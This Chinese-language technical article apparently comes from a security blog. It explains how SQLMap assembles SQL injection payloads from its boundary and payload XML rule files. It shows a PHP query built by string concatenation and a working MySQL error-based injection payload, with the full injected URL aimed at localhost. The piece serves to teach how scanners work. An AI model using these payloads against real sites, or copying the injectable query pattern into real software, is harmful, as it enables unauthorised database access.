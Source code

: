 # SQLMap的前世今生（Part1）

0x00 前言
=====

谈到SQL注入，那麽第一时间就会想到神器SQLMAP，SQLMap是一款用来检测与利用的SQL注入开源工具。那麽SQLMap在扫描SQL的逻辑到底是怎样实现的呢，接下来就探讨下SQLMap的扫描逻辑，通过了解SQLMap的扫描逻辑打造一款属于自己的SQL扫描工具。

0x01 SQL扫描规则：
=====

要了解SQLMap的扫描规则，也就是Payload,那麽到底Payload是哪里来，是根据什么逻辑生成的呢，接下来必须先了解几个文件的，SQLMap的扫描规则文件位于\xml文件夹中，其中boundaries.xml与Payloads文件夹则为SQLMap的扫描规则所在，\xml\payloads中的6个文件，里面的6个文件分别是存放着不同注入手法的PAYLOAD。

那麽就必须了解两个格式，一是boundary文件，一是payloads。

例子：

```
<boundary>
    <level>1</level>
    <clause>1</clause>
    <where>1,2</where>
    <ptype>1</ptype>
    <prefix>'</prefix>
    <suffix> AND '[RANDSTR]'='[RANDSTR]</suffix>
</boundary>

```

1.  clause与where属性
    
    这两个元素的作用是限制boundary所使用的范围，可以理解成当且仅当某个boundary元素的where节点的值包含test元素的子节点，clause节点的值包含test元素的子节点的时候，该boundary才能和当前的test匹配，从而进一步生成payload。
    
2.  prefix与suffix属性
    

要理解这两个属性的作用，那麽就先利用一段代码去讲解。

```
function getattachtablebypid($pid) {
    $tableid = DB::result_first("SELECT tableid FROM ".DB::table('forum_attachment')." WHERE pid='$pid' LIMIT 1");
    return 'forum_attachment_'.($tableid >= 0 && $tableid < 10 ? intval($tableid) : 'unused');
}

```

通过代码我们可以知道pid参与了SQL语句的拼接，那麽如果我们输入的pid为' AND 'test' = 'test呢，那麽最终拼接起来的SQL语句应该为：

```
SELECT tableid FROM ".DB::table('forum_attachment')." WHERE pid='' AND 'test' = 'test' LIMIT 1

```

所以如果我们输入的是' AND 'test' = 'test，那麽最终拼接起来的SQL语句同样是合法的。那麽我们就可以把所测试的Payload放到prefix与suffix中间，使之最终的SQL合法，从而进行注入测试，所以通过了解，prefix与suffix的作用就是为了截断SQL的语句，从而让最终的Payload合法。

至此boundary文件的作用已经讲解完了，接下来就是payload的讲解了。

```
<test>
    <title>MySQL &gt;= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause</title>
    <stype>2</stype>
    <level>1</level>
    <risk>1</risk>
    <clause>1,2,3</clause>
    <where>1</where>
    <vector>AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)</vector>
    <request><!-- These work as good as ELT(), but are longer<payload>AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',(SELECT (CASE WHEN ([RANDNUM]=[RANDNUM]) THEN 1 ELSE 0 END)),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)</payload><payload>AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',(SELECT (MAKE_SET([RANDNUM]=[RANDNUM],1))),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)</payload>-->
    <payload>AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',(SELECT (ELT([RANDNUM]=[RANDNUM],1))),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)</payload>
    </request>
    <response>
        <grep>[DELIMITER_START](?P&lt;result&gt;.*?)[DELIMITER_STOP]</grep>
    </response>
    <details>
        <dbms>MySQL</dbms>
        <dbms_version>&gt;= 5.0</dbms_version>
    </details>
</test>

```

1 title属性

```
title属性为当前测试Payload的标题，通过标题就可以了解当前的注入手法与测试的数据库类型。

```

2 stype属性

```
这一个属性标记着当前的注入手法类型，1为布尔类型盲注，2为报错注入。

```

3 level属性

```
这个属性是每个test都有的，他是作用是是限定在SQL测试中处于哪个深度，简单的来说就是当你在使用SQLMAP进行SQL注入测试的时候，需要指定扫描的level，默认是1，最大为5，当level约高是，所执行的test越多，如果你是指定了level5进行注入测试，那麽估计执行的测试手法会将超过1000个。

```

4 clause与where属性

```
test中的clause与where属性与boundary中的clause与where属性功能是相同的。

```

5 payload属性

```
这一属性既是将要进行测试的SQL语句，也是SQLMap扫描逻辑的关键,其中的[RANDNUM]，[DELIMITER_START]，[DELIMITER_STOP]分别代表着随机数值与字符。当SQLMap扫描时会把对应的随机数替换掉,然后再与boundary的前缀与后缀拼接起来,最终成为测试的Payload。

```

6 details属性

```
其子节点会一般有两个，其dbms子节所代表的是当前Payload所适用的数据库类型，当前例子中的值为MySQL，则表示其Payload适用的数据库为MySQL,其dbms_version子节所代表的适用的数据库版本。

```

7 response属性

这一属性下的子节点标记着当前测试的Payload测试手法。

```
    grep        ：报错注入
    comparison  ：布尔类型忙注入
    time        ：延时注入
    char        ：联合查询注入

```

SQLMAP当中的checkSqlInjection函数即是用这一属性作为判断依据来进入不同的处理分支。而且其中response属性中的值则为其SQL注入判断依据，就如当前的例子中，grep中的值为`[DELIMITER_START](?P&lt;result&gt;.*?)[DELIMITER_STOP]`,SQLMap会将[DELIMITER_START]与[DELIMITER_STOP]替换成Payload中所对应替换的值，然后利用所得到的对返回的页面信息进行正则匹配，如果存在在判断为当前存在SQL注入漏洞。

其中要注意的是,Payload中的字符串会根据当前Payload所适用的数据库类型对字符串进行处理，其处理的代码位于\plugins\dbms下对应数据库文件夹中的syntax.py脚本中。

![enter image description here](http://drops.javaweb.org/uploads/images/22d73cd6f20b0daa2fc159ea95549bac4a9967e7.jpg)

所以最终的payload是根据test的payload子节点和boundary的prefix（前缀）、suffix（后缀）子节点的值组合而成的，即：最终的`payload = url参数 + boundary.prefix+test.payload+boundary.suffix`

0x02 实例
=====

接下来以报错注入来实际讲解下Payload与boundary的使用。

上例子中的boundary元素中的where节点的值为1,2，含有test元素的where节点的值（1）,并且，boundary元素中的clause节点的值为1，含有test元素的where节点的值（1）,因此，该boundary和test元素以匹配。test元素的payload的值为：

```
AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',(SELECT (CASE WHEN ([RANDNUM]=[RANDNUM]) THEN 1 ELSE 0 END)),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)

```

之前已经介绍了最终的Payload是如何的一个格式,所以最后将其中的[RANDNUM]、[DELIMITER_START]、[DELIMITER_STOP]替换掉与转义之后。

则生成的payload类似如下：

```
[RANDNUM]           = 2214
[DELIMITER_START]   = ~!(转义后则为0x7e21)
[DELIMITER_STOP]    = !~(转义后则为0x217e)
Payload: ' AND (SELECT 2214 FROM(SELECT COUNT(*),CONCAT(0x7e21,(SELECT (CASE WHEN (2214=2214) THEN 1 ELSE 0 END)),0x217e,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) AND 'pujM'='pujM

```

如果http://127.0.0.1/search-result.php?keyword=&ad_id=3存在注入的话，那么执行的时候就会报如下错误：

```
Duplicate entry '~!1!~1' for key 'group_key'

```

根据之前的讲解，那麽最终于测试的URL如下

```
http://127.0.0.1/search-result.php?keyword=&ad_id=' AND (SELECT 2214 FROM(SELECT COUNT(*),CONCAT(0x7e21,(SELECT (ELT(2214=2214,1))),0x217e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'YmRM'='YmRM

```

如下为返回的页面信息

![enter image description here](http://drops.javaweb.org/uploads/images/7d09ccf3d40a959cc70d28747853b1c5f7f2aecf.jpg)

后根据grep中的正规来匹配当前页面。

```
<grep>[DELIMITER_START](?P&lt;result&gt;.*?)[DELIMITER_STOP]</grep>

```

而使用正则：`~!(?P<result>.*?)!~来匹配Duplicate entry '~!1!~1' for key 'group_key'`的结果为1,根据匹配的结果可以得出当前的页面确实存在着SQL注入。

0x03 总结
=====

通过SQLMap的扫描逻辑，我们可以了解到SQL注入的常规手法与实现，熟悉SQLMap的配置文件之后，自己就可以根据实际的情况对Payload与boundary进行修改，通过增加Payload与boundary来增强SQLMap的扫描规则，也可以利用其扫描规则来打造一款自己的SQL扫描工具。